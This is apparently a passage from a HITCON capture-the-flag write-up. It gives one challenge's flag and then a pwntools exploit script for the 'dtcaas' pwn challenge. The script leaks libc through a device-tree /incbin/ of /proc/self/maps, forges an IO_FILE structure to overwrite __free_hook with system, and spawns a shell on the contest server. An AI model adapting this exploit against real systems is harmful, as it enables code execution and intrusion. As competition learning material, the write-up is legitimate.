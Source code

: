 The flag is `hitcon{219.91.64.47}`.

## Pwn

### dtcaas

```python=
from pwn import *
from IO_FILE import *

###Util
def upload(data):
    size = len(data)
    r.sendlineafter('Size?\n',str(size))
    r.sendafter('Data?\n',data)

###Addr
free_hook_offset = 0x1eeb28
system_offset = 0x55410

###Exploit
r = remote('52.196.81.112',3154)

leak = '''
/dts-v1/;
/ {
    exp {
        leak = /incbin/("/proc/self/maps");    
    };

};
'''
upload(leak)
while True:
    res = r.recvline()
    if b'libc' in res:
        break
libc_base = int(res.split(b'-')[0],16)
print(hex(libc_base))

shell = '''
/dts-v1/;
/ {
    exp {
        setup = "123456789abcdef0123456789abcdef0123456789abcdef0";
        pwn = /incbin/("/proc/self/fd/0",0,4294967344);
    };
};
'''
upload(shell)

padding = b'a'*0x1b0
IO_file = IO_FILE_plus(arch=64)
stream = IO_file.construct(flags=0xfbad2088,
                           buf_base=libc_base+free_hook_offset-0x10, buf_end=libc_base+free_hook_offset-0x10+0x100000000)
payload = padding+stream[:0x48]
r.send(payload)
sleep(1)
payload = p64(libc_base+free_hook_offset-0x8)+b'/bin/sh\x00'+p64(libc_base+system_offset)
r.send(payload)

r.interactive()
```